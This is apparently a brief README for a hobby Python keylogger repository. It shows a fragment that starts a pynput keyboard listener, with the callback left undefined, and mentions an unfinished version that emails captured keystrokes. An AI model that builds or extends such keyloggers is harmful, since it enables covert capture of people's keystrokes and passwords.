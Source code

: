 ## This repository hold my keylogger made in Python. Please use this for testing only. 

Tools used Python

<h2> Created a Basic Keylogger </h2>

from pynput import keyboard



if __name__=="__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()

<h2>Created a Keylogger that can send emails.</h2> (In progress)
